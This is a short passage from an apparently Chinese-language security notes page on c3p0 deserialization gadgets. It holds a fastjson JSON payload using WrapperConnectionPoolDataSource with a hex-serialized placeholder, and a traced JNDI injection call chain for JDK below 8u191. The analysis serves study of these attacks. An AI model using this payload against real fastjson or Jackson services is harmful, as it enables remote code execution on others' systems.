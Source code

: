 ```java
}
```

配合fastjson使用：

> {
>     "a": {
>         "@type": "java.lang.Class",
>         "val": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"
>     },
>     "b": {
>         "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
>         "userOverridesAsString": "HexAsciiSerializedMap:hexEXP;"
>     }
> }

# 0x06 JNDI

也是在fastjson或jackson环境下使用，jdk8u191以下（支持LDAP-JNDI注入）

* `JndiRefConnectionPoolDataSource#setJndiName`最后会调用`JndiRefDataSourceBase#setJndiName`，设置`JndiRefDataSourceBase`类的jndiName属性。

* `JndiRefConnectionPoolDataSource#setLoginTimeout` =>`WrapperConnectionPoolDataSource#setLoginTimeout`
  =>  `JndiRefForwardingDataSource#setLoginTimeout`  => `inner()`  =>  `dereference()`

`JndiRefForwardingDataSource`继承自`JndiRefDataSourceBase`，可获取其jndiName

![image-20230125175602909](../.gitbook/assets/image-20230125175602909.png)
